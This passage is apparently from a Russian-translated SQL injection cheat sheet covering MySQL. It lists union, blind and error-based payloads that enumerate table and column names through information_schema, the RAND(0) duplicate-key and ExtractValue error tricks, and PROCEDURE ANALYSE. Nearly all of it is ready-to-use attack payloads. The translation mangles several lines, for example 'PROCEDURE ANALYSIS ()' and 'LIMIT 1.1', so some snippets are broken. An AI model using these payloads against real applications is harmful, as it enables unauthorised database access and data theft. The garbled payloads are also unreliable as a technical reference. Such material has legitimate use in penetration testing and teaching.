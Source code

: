     ```

=== "blind"
    ```sql
    AND
    SELECT SUBSTR(table_name, 1, 1)
    FROM information_schema.tables > 'A'
    ```

=== "Error"
    ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
    AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- Successful in version 5.1.5.
    ```

### Название столбца

=== "union query"
    ```sql
    UNION
    SELECT GROUP_CONCAT(column_name)
    FROM information_schema.columns
    WHERE table_name = 'tablename'
    ```

=== "blind"
    ```sql
    AND
    SELECT SUBSTR(column_name, 1, 1)
    FROM information_schema.columns > 'A'
    ```

=== "Error"
    ```sql
    -- Successful in version 5.1.5
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1 has been fixed
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);
    AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

=== "Use PROCEDURE ANALYSIS ()"
    ```sql
    -- Для этого требуется отображаемая в Интернете страница с полем для введенного вами запроса.
    -- Получить имя первого абзаца
    SELECT username, permission
    FROM Users
    WHERE id = 1;
    1 PROCEDURE ANALYSE()
    -- Получите имя второго раздела
    1 LIMIT 1.1 PROCEDURE ANALYSIS ()
    -- Получить название третьего абзаца
    1 LIMIT 2.1 PROCEDURE ANALYSIS ()
    ```
